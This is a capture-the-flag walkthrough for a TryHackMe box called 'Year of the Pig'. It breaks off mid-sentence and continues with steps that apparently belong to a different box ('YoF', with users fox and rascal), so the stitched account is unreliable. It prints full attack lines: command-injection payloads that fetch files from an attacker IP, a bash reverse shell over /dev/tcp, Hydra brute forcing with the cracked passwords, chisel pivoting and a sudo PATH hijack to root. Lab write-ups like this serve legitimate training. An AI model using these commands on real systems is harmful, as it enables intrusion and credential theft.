 In this walkthrough, we'll go over a challenge (hard) level box called ***Year of the Pig*** on [TryHackMe](https://tryhackme.com/room/yearofthepig) 

![YoP](yop.png)

Let's start the scanning process with nmap. The IP address would be different when you deploy it:
```bash
nmap -sTV -n -sC -T4 -p- 10.10.209.207 --open
```
Per the nmap result, it looks like port 80 is open:
```bash
Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-25 17:02 EDT
Nmap scan report for 10.10.209.207
Host is up (0.35s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Marco's Blog
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.98 seconds
```
![YoP index](yop-index-html.png)

We can run dirseach to see what we can find `dirsearch -u http://10.10.48.50 -r -f -t 50 -x 302,400,403,500,503`:
![YoP Dirsearch](yop-dirsearch1.png)

It looks like there is admin page, we can visit the following link http://10.10.22.113/login.php:
![YoP Admin Login](yop-admin-login-test.png)

We can see that the login page has a hint in terms of the password. It is a memorable word and followed by two numbers and a special character. we can use cewl to extract the keywords `cewl http://10.10.22.113 -d 4 -o -w yop-keywords.txt`. After that, we can get rid of some of the words manually. We can also 

It looks like we are being asked to enter credentials. I also realize that SMB is also running on this server so let's enumerate SMB as well:
`enum4linux -a -o 10.10.242.71`
![YoF enum4linux1](yof-enum4linux1.png)
![YoF enum4linux2](yof-enum4linux2.png)

User | User Type
----- | ---------
fox | Local User
rascal | Local User

At this point, we can try to brute force the HTTP basic auth with Hydra `hydra -l rascal -P /usr/share/wordlists/rockyou.txt 10.10.242.71 http-get`:

![YoF HTTP Basicauth](yof-http-basicauth-bruteforce.png)

Username | Password
----------- | --------
rascal | jesussaves

We can login with the above credentials:
![YoF Authenticated Login](yof-authenticated-login.png)

However, there isn't much here and we can proxy the traffic via Burp after much enumeration, I use the below script to upload a test file:
`"\"; wget http://10.13.6.172:80/test.txt -O /tmp/t.txt; echo\""`
![YoF Command Injection](yof-command-injection-test.png)

This action is successful:

![YoF Python Server](yof-python-server.png)

Another comand injection script `\";echo d2hvYW1p | base64 -d | bash \n`:
![YoF Command Injection](yof-command-injection-whoami.png)

We can now create a file called "revshell.sh" and insert the below payload for getting a reverse shell:
```bash
#!/bin/bash
bash -i >& /dev/tcp/10.13.6.172/5555 0>&1
```
Using the same method, we upload the file to "/tmp" directory `"\"; wget http://10.13.6.172:80/revshell.sh -O /tmp/revshell.sh; echo\""`

After that we start a listener with nc `nc -nlvp 5555`

We can then run the following command `"\"; bash /tmp/revshell.sh; echo\""`:
![YoF bash revshell](yof-bash-revshell.png)
![YoF initial foothold](yof-initial-foothold.png)

After running linpeas, I find a lot of rabbit holes, but one finding is interesting:
![YoF linpeas](yof-linpeas.png)

SSH is running locally so we can move chisel to the target machine and forward the port:
1. Edit proxychains.conf `socks 127.0.0.1 9999`:

	![YoF Proxchains Conf](yof-proxchains-conf.png)
2. Run the following on the local machine `./chisel_1.7.6_linux_amd64 server --socks5 -p 1111 --reverse`:
	![YoF Chisel Server](yof-chisel-server.png)
3. Run the following on target machine `./chisel_1.7.6_linux_amd64 client 10.13.6.172:1111 R:9999:127.0.0.1:22`:
	![YoF Chisel Client](yof-chisel-client.png)
  
We can then try to brute force the SSH service with Hydra `hydra -l fox -P /usr/share/wordlists/rockyou.txt ssh://127.0.0.1:9999 -v -f`:

![YoF Hydra](yof-hydra-ssh.png)

Username | Password
----------- | --------
fox | michelle1

We can now SSH into the server with above credentials `ssh -p 9999 fox@127.0.0.1`:

![YoF SSH](yof-ssh.png)

It looks like fox user could run "/usr/sbin/shutdown" as root without any passwords:
![YoF FOX Sudo](yof-fox-sudo-l.png)

We then transfer "/usr/sbin/shutdown" to my local Kali machine and inspected it with `strings shutdown`:

![YoF Strings](yof-strings-shutdown.png)

Next we copy "/bin/bash" to "/tmp"
`cp /bin/bash /tmp/bash`

We can now run the following command `sudo "PATH=/tmp:$PATH" /usr/sbin/shutdown` to get a root shell:
![YoF Root Shell](yof-root-txt.png)

I hope you enjoyed this walkthrough.

[<= Go Back to TryHackMe Walkthroughs](TryHackMeWalkthroughs.md)

[<= Go Back to Main Menu](index.md)
